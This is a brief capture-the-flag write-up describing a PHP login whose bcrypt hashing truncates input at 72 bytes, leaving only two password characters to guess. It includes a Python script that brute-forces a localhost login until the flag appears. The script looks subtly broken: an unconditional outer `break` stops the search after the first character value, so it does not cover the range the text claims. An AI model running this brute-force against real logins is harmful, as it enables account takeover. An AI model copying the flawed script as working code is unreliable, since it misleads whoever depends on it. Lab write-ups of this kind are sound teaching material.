 1. Looking at the source code, it is revealed that the hash is generated with these three components:
- username, `admin` (length of 5)
- random string, `an_additional_random_string_to_leengthen_the_hash_for_some_reason` (length of 65)
- and password (variable length)

2. Furthermore, the hash uses the BCRYPT algorithm. On the official [PHP Documentation](https://www.php.net/manual/en/function.password-hash.php), we see that the BCRYPT algorithm truncates its input when generating the hash
    > Caution Using the PASSWORD_BCRYPT as the algorithm, will result in the password parameter being truncated to a maximum length of 72 bytes.
    Since the first 2 components of the input 70 chars, only the first 2 characters of the entered password will be considered. This means that bruteforce is possible.

3. Solve script is as provided:
```python
import requests

target = "http://localhost:9999/?username={}&password={}"

for i in range(33, 127):
    for j in range(75, 127):
        guess = chr(i) + chr(j)
        print(f"[+] Trying {guess}")

        url = target.format("admin", guess)

        response = requests.get(url)

        if "grifflesCTF{" in response.text:
            print(f"[+] Found flag in response:")
            print(response.text)
            break
    break
```